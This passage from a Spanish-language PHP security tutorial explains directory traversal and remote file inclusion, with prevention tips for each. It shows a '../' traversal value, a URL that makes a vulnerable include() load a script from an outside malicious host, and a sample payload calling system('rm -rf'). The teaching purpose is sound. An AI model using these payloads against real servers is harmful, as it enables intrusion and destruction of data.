 ```php
include ("views/" . $viewName);
```

Si un atacante logra manipular la variable *$viewName* para asignarle, por ejemplo, el valor "../../../../otro-fichero.php", nuestro programa hará un include de un fichero que está claramente fuera de los directorios de la aplicación.

Para evitar este tipo de ataques, algunas estrategias son:

* **Tener un array de páginas y carpetas válidas**. Si un include trata de acceder a un recurso que no está en la lista, se sospechará de un ataque.
* **Buscar caracteres sospechosos en los nombres de los archivos**. Si la variable *$viewName* del ejemplo anterior incluye los caracteres "../", la cosa se pone fea. No en vano, el ataque Directory Transversal también se denomina "ataque punto punto barra".

### 3.4.6. RFI (remote file inclusion)

Este ataque se produce cuando **se incluye un archivo remoto** explotando una vulnerabilidad del código fuente.

Imagina, como antes, un programa PHP que haga un *include()* tan común como este:

```php
include ($viewName);
```

Imagina también que este código se invoque normalmente mediante una petición del estilo: https://sitio-confiable.com?view=main.php. O algo parecido. Es una estrategia habitual en muchas aplicaciones web.

Pues bien, un atacante podría pedir la siguiente URL: https://sitio-confiable.com?view=https://sitio-malicioso/soy-un-script-malvado.php

Es decir, ha colocado como *$viewName* la URL de un programa PHP externo a nuestro servidor, y nuestro programa hará un *include()* de ese código tan feliz y contento, sin saber que se trata de código malicioso que acabará directamente en las tripas de nuestro programa. 

Una vez que *soy-un-script-malvado.php* se esté ejecutando en el servidor *sitio-confiable.com*, puede hacer cosas terribles, como, por ejemplo, esta:

```php
<?php
  system("rm -rf");
?>
```

(No te digo lo que hace ese comando por si se te ocurre probarlo, pero ya te adelanto que no es agradable).

Para prevenir los ataques por RFI, algunas estrategias válidas son:

* **No confiar en los datos** que no provengan de nuestro sistema.
* **Validar y filtrar los datos** que introduce el usuario (sí, otra vez: validar, validar y validar cualquier cosa que provenga del usuario).

## 3.5. Caso práctico resuelto: autenticación mediante ACL
